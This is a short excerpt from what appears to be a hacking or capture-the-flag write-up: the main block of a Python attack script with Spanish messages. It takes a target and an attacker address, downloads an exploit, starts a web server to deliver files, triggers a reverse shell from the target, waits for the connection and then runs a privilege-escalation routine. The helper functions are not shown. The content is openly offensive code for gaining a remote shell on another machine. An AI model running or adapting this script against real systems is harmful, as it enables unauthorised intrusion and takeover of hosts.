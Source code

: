 ```python
def upServer():
	os.system("python -m SimpleHTTPServer 80")

if __name__ == "__main__":

	if(len(sys.argv) != 3):
		log.failure("uso: sudo python3 {} <RHOST> <LHOST>".format(sys.argv[0]))
		sys.exit(1)

	downloadExploit()
	time.sleep(2)

	RHOST=sys.argv[1]
	LHOST=sys.argv[2]
	try:
		threading.Thread(target=getShell(RHOST,LHOST)).start()
		threading.Thread(target=upServer).start()
	except Exception as e:
		log.failure("No se logro establecer la conexion")
		sys.exit(1)

	shell = listen(LPORT,timeout=20).wait_for_connection()

	if(shell.sock is None):
		log.error("No se logro establecer una conexion")
	else:
		privEsc(LHOST)

```
  
![](https://lh4.googleusercontent.com/6X7Pv4fh4-Bhxk-TIm44lSfI9YA-DEij3vuDCuq9kR3bQYmeXSnjopYhKg-DvKt4dzsSX9AHmccbk0aaYau6m6mHtWL_WBuIIapEN50WlRRMw0QwXAjywN35eSc6dhHh5F3N4nA9)

